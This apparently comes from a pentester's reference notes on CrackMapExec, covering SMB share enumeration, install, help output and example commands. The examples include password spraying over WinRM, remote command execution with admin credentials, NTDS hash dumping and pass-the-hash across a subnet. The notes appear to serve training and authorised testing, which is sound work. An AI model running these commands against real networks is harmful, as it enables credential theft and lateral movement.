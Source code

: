 ```yaml
---
tags:
  - Enumeration
  - TCP
  - ServerMessageBlock
  - SMB
  - Tooling
---
```



[GitHub - byt3bl33d3r/CrackMapExec: A swiss army knife for pentesting networks](https://github.com/byt3bl33d3r/CrackMapExec)


```shell-session
crackmapexec smb 10.129.14.128 --shares -u '' -p ''
```

## Installation

```shell-session
sudo apt-get -y install crackmapexec
```

## Usage

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

##### SMB Command Execution

```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
##### WinRM Password Spraying

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

> [!NOTE]
> By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found.

[web.archive.org/web/20220129050920/https://mpgn.gitbook.io/crackmapexec/getting-started/using-credentials](https://web.archive.org/web/20220129050920/https://mpgn.gitbook.io/crackmapexec/getting-started/using-credentials)
### Options

```shell-session
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT]
                    [--jitter INTERVAL] [--darrell]
                    [--verbose]
                    {mssql,smb,ssh,winrm} ...

optional arguments:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output

protocols:
  available protocols

  {mssql,smb,ssh,winrm}
    mssql               own stuff using MSSQL
    smb                 own stuff using SMB
    ssh                 own stuff using SSH
    winrm               own stuff using WINRM
```


```shell-session
usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]]
                        [-k] [--aesKey] [--kdcHost] [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
                        [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {http,https}]
                        [--server-host HOST] [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce]
                        [-d DOMAIN | --local-auth] [--port {139,445}] [--share SHARE] [--gen-relay-list OUTPUT_FILE]
                        [--continue-on-success] [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions]
                        [--disks] [--loggedon-users] [--users [USER]] [--groups [GROUP]] [--local-groups [GROUP]]
                        [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY] [--wmi-namespace NAMESPACE]
                        [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE]
                        [--exec-method {atexec,wmiexec,smbexec,mmcexec}] [--force-ps32] [--no-output]
                        [-x COMMAND | -X PS_COMMAND] [--obfs] [--clear-obfscripts]
                        [target ...]

positional arguments:
  target                the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of
                        targets, NMap XML or .Nessus file(s)

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)
```

## Extract NTDS from SMB

Using an account with admin privileges:

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Pass the Hash


```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. We can use the option `-x` to execute commands.